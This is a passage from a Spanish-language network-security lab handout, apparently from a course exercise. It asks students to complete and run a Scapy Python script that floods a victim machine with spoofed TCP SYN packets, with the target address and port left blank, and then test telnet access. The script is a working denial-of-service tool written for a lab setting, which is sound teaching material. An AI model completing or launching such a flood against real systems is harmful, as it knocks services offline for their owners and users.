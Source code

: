 \subsection{Tarea 1.1: Lanzando el ataque usando Python}

Hemos provisto un programa de Python llamado \texttt{synflood.py}, pero
intencionalmente hemos omitido algunos datos esenciales en el código.
Este código envía paquetes TCP SYN spoofeadoos, con una dirección IP de origen, el puerto destino y el número de secuencia, generados de forma aleatoria.
Los estudiantes deberán de completar y terminar el código y usarlo para lanzar el ataque en la máquina víctima.


\begin{lstlisting}
#!/bin/env python3
  
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip  = IP(dst="*.*.*.*")
tcp = TCP(dport=**, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src    = str(IPv4Address(getrandbits(32)))  # source iP
    pkt[TCP].sport = getrandbits(16)     # source port
    pkt[TCP].seq   = getrandbits(32)     # sequence number
    send(pkt, verbose = 0)
\end{lstlisting}

Deje que el ataque se ejecute durante al menos un minuto, luego intente hacer telnet en la máquina de la víctima y vea si puede tener éxito. Es muy probable que
su ataque falle. Esto se debe a que múltiples problemas pueden contribuir al fracaso. del ataque. A continuación se enumeran las posibles causas de estos fallos y como abordarlas.

